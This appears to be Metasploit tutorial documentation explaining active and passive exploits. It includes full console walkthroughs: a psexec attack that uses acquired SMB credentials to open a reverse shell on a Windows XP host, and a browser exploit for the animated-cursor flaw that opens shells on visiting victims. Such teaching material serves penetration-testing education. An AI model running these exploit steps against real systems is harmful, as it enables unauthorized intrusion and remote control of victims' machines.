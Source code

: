 All exploits in the Metasploit Framework will fall into two categories: active and passive.

**Active Exploits**

- Active exploits will exploit a specific host, run until completion, and then exit.

        Brute-force modules will exit when a shell opens from the victim.
        Module execution stops if an error is encountered.
        You can force an active module to the background by passing ‘-j’ to the exploit command:


```bash
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

***Example***

The following example makes use of a previously acquired set of credentials to exploit and gain a reverse shell on the target system.


```bash
msf > use exploit/windows/smb/psexec

msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

**Passive Exploits

- Passive exploits wait for incoming hosts and exploit them as they connect.

        Passive exploits almost always focus on clients such as web browsers, FTP clients, etc.
        They can also be used in conjunction with email exploits, waiting for connections.
        Passive exploits report shells as they happen can be enumerated by passing ‘-l’ to the sessions command. Passing ‘-i’    will interact with a shell.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
===============

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```


***Example***

The following output shows the setup to exploit the animated cursor vulnerability. The exploit does not fire until a victim browses to our malicious website.


```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp

msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
[*] Exploit running as background job.

[*] Started reverse handler
[*] Using URL: http://0.0.0.0:8080/
[*]  Local IP: http://192.168.1.5:8080/
[*] Server started.
msf exploit(ani_loadimage_chunksize) >
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending HTML page to 192.168.1.100:1077...
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending Windows ANI LoadAniIcon() Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
[*] Sending stage (240 bytes)
[*] Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
[*] Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```



